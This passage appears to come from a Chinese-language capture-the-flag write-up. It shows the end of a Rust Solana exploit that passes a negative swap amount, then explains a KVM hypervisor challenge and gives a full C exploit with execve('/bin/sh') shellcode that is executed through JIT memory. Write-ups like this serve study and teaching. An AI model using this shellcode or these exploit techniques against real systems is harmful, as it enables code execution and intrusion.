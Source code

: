 ```rust
        let swap_accounts = chall::cpi::accounts::Swap{
            state: ctx.accounts.state.to_account_info(),
            payer: ctx.accounts.payer.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_swap = CpiContext::new(ctx.accounts.chall.to_account_info(), swap_accounts);
        chall::cpi::swap(cpi_swap, -1000000)?;

        Ok(())
    }
}
#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,

    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```

### dicer-visor:

Dicer-visor 是使用kvm API去执行一个Linux内核，并映射了文件系统。在设置了内存和寄存器后会进入`run_vm`函数，申请一段 rwx 的内存区域`jit_mem`。在while循环中读取从内核IO端口得到的数据。

`vuln.ko`是内核中的一个可利用模块，write可以向shellcode的数组中写入大小为0x100的数据。ioctl有两个命令:

- 0xBEEF：向0xD1CE输出0xD1CE
- 0xDEAD：逐个字地向0xDEAD输出shellcode中的内容

在`run_vm`中，当接收到`0xDICE`，会去执行`jit_mem`中的指令。当接收到`0xDEAD`，将得到的数据放到`jit_mem`中。所以，我们只要把shellcode写到`jit_mem` 然后执行就可以。程序没有禁止`execve`，可以直接执行`execve("/bin/sh")`。

```C
#include "./exploit.h"

int global_fd;

void cmd1() { ioctl(global_fd, 0xBEEF, NULL); }

void cmd2() { ioctl(global_fd, 0xDEAD, NULL); }

int main() {
  global_fd = open("/dev/exploited-device", O_RDWR);
  if (global_fd < 0) {
    die("[!] Failed to open /dev/exploited-device");
  }
  unsigned char sc[] = "H\xb8/bin/sh\x00PH\x89\xe7H1\xd2H1\xf6j;X\x0f\x05";

  char buf[0x100];
  memset(buf, 0x90, sizeof(buf));
  memcpy(buf, sc, sizeof(sc));
  write(global_fd, buf, sizeof(buf));

  cmd2();
  cmd1();

  return 0;
}
```